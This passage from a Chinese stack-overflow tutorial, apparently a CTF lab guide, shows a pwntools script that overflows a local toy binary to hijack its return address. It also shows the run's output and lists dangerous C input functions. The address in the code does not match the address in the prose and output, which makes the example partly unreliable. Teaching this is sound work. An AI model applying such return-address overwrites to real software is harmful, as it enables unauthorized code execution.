 但是需要注意的是，由于在计算机内存中，每个值都是按照字节存储的。一般情况下都是采用小端存储，即0x0804843B 在内存中的形式是

```text
\x3b\x84\x04\x08
```

但是，我们又不能直接在终端将这些字符给输入进去，在终端输入的时候\，x等也算一个单独的字符。。所以我们需要想办法将 \x3b 作为一个字符输入进去。那么此时我们就需要使用一波 pwntools 了(关于如何安装以及基本用法，请自行 github)，这里利用 pwntools 的代码如下：

```python
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./stack_example')
success_addr = 0x08049186
## 构造payload
payload = b'a' * 0x14 + b'bbbb' + p32(success_addr)
print(p32(success_addr))
## 向程序发送字符串
sh.sendline(payload)
## 将代码交互转换为手工交互
sh.interactive()
```

执行一波代码，可以得到

```shell
➜  stack-example python exp.py
[+] Starting local process './stack_example': pid 61936
;\x84\x0
[*] Switching to interactive mode
aaaaaaaaaaaaaaaaaaaabbbb;\x84\x0
You Hava already controlled it.
[*] Got EOF while reading in interactive
$ 
[*] Process './stack_example' stopped with exit code -11 (SIGSEGV) (pid 61936)
[*] Got EOF while sending in interactive
```

可以看到我们确实已经执行 success 函数。

## 小总结

上面的示例其实也展示了栈溢出中比较重要的几个步骤。

### 寻找危险函数

通过寻找危险函数，我们快速确定程序是否可能有栈溢出，以及有的话，栈溢出的位置在哪里。常见的危险函数如下

-   输入
    -   gets，直接读取一行，忽略'\x00'
    -   scanf
    -   vscanf
-   输出
    -   sprintf
-   字符串
    -   strcpy，字符串复制，遇到'\x00'停止
    -   strcat，字符串拼接，遇到'\x00'停止
    -   bcopy
